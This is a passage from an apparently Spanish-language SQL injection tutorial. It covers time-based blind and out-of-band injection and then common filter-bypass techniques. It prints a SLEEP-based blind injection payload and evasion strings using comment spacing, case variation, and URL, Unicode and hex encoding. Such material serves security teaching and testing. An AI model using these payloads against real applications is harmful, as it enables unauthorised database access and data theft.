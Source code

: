 #### Time-based Blind SQL Injection
El atacante usa funciones de tiempo para determinar si una consulta es verdadera o falsa basándose en el tiempo de respuesta.

**Payload de ejemplo:**
```
1' AND IF(1=1, SLEEP(5), 0)--
```

### 3. Out-of-band SQL Injection
Ocurre cuando el atacante no puede usar el mismo canal para lanzar el ataque y recopilar resultados.

## 🔧 Técnicas de Bypass Comunes

### 1. Bypass de Filtros Básicos

**Espacios alternativos:**
```sql
SELECT/**/username/**/FROM/**/users
SELECT+username+FROM+users
SELECT%20username%20FROM%20users
```

**Comentarios inline:**
```sql
SEL/*comment*/ECT username FROM users
```

**Case variation:**
```sql
SeLeCt username FrOm users
```

### 2. Encoding Bypass

**URL Encoding:**
```
%27 = '
%20 = space
%2D%2D = --
```

**Unicode Encoding:**
```
\u0027 = '
\u0020 = space
```

**Hex Encoding:**
```sql
SELECT 0x61646D696E -- 'admin' en hexadecimal
```

### 3. Function-based Bypass
